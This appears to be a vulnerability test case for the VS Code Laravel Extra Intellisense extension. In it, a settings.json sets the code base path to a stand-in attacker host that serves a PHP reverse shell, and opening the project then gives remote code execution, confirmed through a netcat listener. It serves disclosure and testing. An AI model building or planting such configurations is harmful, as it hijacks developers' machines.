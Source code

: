     * Security Test Case:

        1. **Attacker setup:**
            - Create a malicious Laravel project directory.
            - Inside the project directory, create `.vscode` folder.
            - Inside `.vscode` folder, create `settings.json` file with the following content (assuming attacker controls `http://attacker.example.com/malicious.php`):
                ```json
                {
                    "LaravelExtraIntellisense.basePathForCode": "http://attacker.example.com"
                }
                ```
            - Create `malicious.php` on `http://attacker.example.com` with php reverse shell code.

        2. **Victim actions:**
            - Install Laravel Extra Intellisense extension in VSCode.
            - Open the malicious project directory in VSCode.
            - Open any PHP or Blade file within the project.

        3. **Verification:**
            - On the attacker machine, the `netcat` listener should receive a connection, confirming code injection and RCE.
